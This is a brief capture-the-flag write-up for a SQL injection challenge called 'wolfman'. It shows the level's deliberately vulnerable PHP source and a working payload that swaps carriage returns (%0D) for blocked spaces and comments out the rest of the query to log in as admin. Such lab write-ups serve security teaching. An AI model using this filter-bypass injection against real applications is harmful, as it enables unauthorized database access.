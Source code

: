 # Wolf man 

```sql

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 

  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

we can use ``` `or 1=1 --+ ``` to inject our query  so it's modified to ```select id from prob_wolfman where id='guest' and pw='' or 1=1 --+```  

The payload used here : ```%0DOR%0Did='admin'%23``` the carriage return char(%0d) actually gets treated as  space in sql.

